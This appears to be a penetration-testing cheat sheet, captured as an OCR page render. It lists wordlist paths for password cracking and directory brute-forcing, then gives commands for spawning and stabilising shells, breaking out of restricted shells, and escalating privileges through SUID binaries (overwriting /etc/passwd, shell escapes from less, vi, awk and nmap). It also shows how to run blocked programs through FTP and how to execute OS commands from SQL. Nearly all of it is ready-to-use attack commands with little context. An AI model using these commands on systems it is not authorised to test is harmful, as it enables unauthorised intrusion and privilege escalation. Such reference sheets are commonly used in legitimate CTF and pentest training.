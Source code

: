 ````
/usr/share/wordlists/rockyou.txt (too much)
/usr/share/wordlists/metasploit/password.lst (88396)

```
#### Directory lists:
```
/usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
/usr/share/seclists/Discovery/Web-Content/common.txt
/usr/share/seclists/Discovery/Web-Content/quickhits.txt
/usr/share/seclists/Discovery/Web-Content/CGIs.txt
/usr/share/seclists/Discovery/Web-Content/raft-*
```

#### Fuzzing lists:
``` /usr/share/seclists/Fuzzing```
``` /usr/share/wfuzz/wordlist```

# Shells

#### Shell Spawning
```
which python; which python3
python3 -c 'import pty;pty.spawn("/bin/bash")'
Ctrl+Z
stty raw -echo
fg+ENTER
```

#### Shell Breakout
```
python -c 'import pty;pty.spawn("/bin/bash")'
echo os.system('/bin/bash')
/bin/sh -i

perl —e 'exec "/bin/sh";'
perl: exec "/bin/sh";
ruby: exec "/bin/sh"
lua: os.execute('/bin/sh')
```

#### SUID Privileged Binaries
```
cp,mv: replace /etc/passwd to add a user or SSH key.

less,more: !bash
man: !bash
expect: spawn /bin/bash; bash
awk: 'BEGIN {system("/bin/sh")}'
echo: hello; chmod u+s /bin/sh

Text Editors:
exec "/bin/sh" (IRB)
:!bash (vi)
:set shell=/bin/bash:shell (vi)
!sh (nmap)
```
#### FTP
Using FTP to access blacklisted appliactions (e.g., powershell in this instance):

``` echo !powershell.exe > ftpcommands.txt && ftp -s:ftpcommands.txt```

#### Execute OS Commands from within SQL

```
\! whoami
````